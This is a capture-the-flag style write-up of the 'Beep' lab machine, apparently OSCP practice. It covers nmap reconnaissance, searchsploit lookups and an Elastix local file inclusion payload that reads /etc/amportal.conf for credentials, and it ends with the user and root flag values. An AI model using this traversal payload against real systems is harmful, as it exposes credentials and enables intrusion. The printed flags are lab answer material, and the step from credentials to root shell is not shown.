```yaml
---
layout: post
title: Beep
tags: [OSCP, writeup, Password Reuse, LFI, Linux, Web]
description: "Beep write-up"
---
```


![Beep logo](/assets/imgs/beep/beep.png)

### This is an easy linux box

## Tool used

------

- find
- nmap
- searchsploit

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA beep 10.10.10.7 -v

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL APOP LOGIN-DELAY(0) STLS IMPLEMENTATION(Cyrus POP3 server v2) RESP-CODES TOP USER EXPIRE(NEVER) AUTH-RESP-CODE PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed RENAME OK QUOTA LISTEXT NO X-NETSCAPE ANNOTATEMORE UNSELECT CATENATE RIGHTS=kxte URLAUTHA0001 LITERAL+ CHILDREN IDLE ACL IMAP4 BINARY IMAP4rev1 LIST-SUBSCRIBED THREAD=REFERENCES MULTIAPPEND ID MAILBOX-REFERRALS STARTTLS THREAD=ORDEREDSUBJECT UIDPLUS NAMESPACE ATOMIC SORT=MODSEQ SORT CONDSTORE
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-16T16:42:53+00:00; +6m28s from scanner time.
880/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

Here’s what nmap teaches us :

- port 22 (SSH) OpenSSH 4.3
- port 25 (SMTP) Postfix
- port 80 (HTTP) Apache httpd 2.2.3
- port 110 (POP) Cyrus 2.3.7
- port 143 (IMAP) Cyrus 2.3.7
- port 3306 (MYSQL)
- port 10000 MiniServ 1.570 Webmin

We have some versions, let’s check them for known exploits.

### Searchsploit

#### SSH

![Searchsploit SSH](/assets/imgs/beep/searchsploit_ssh.PNG)

As we can see, there is some exploit to do some “Username Enumeration”.  It might be interresting, but at the moment I don’t really need a  username. So if I have nothing, I’ll get back to that exploit.

#### Elastix

![Searchsploit Elastix](/assets/imgs/beep/searchsploit_elastix.PNG)

There is some interesting exploit here.

- LFI
- Blind SQL
- PHP Code Injection
- RCE

Let' check for more exploit before going through them.

#### POP/IMAP

![Searchsploit POP/IMAP](/assets/imgs/beep/searchsploit_cyrus.PNG)

Nothing here, the install version is 2.3.7

#### Webmin

![Searchsploit Webmin](/assets/imgs/beep/searchsploit_webmin.PNG)

The install version is 1.570 so there might be a RCE.

## Exploit

------

Since there is more exploit found with Elastix, that is were I started. I didn't found the Elastix version so I tried the first one LFI. 

Download the code like so :

```bash
searchsploit -m php/webapps/37637.pl
```

Read the exploit and found the exploit part which is :

```bash
#LFI Exploit: 
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Nothing difficult here, it's just a simple LFI, so let's try it in the browser !

![LFI Elastix](/assets/imgs/beep/lfi_elastix.PNG)

Bingo, it's working and we now have some credentials :

## Flags

------

### User.txt

```bash
sh-3.2# find / -name "user.txt"
/home/fanis/user.txt
sh-3.2# cat /home/fanis/user.txt 
aeff3def0c765c2677b94715cffa73ac
```

### Root.txt

```bash
sh-3.2# find / -name "root.txt"
/root/root.txt
sh-3.2# cat /root/root.txt
d88e006123842106982acce0aaf453f0
```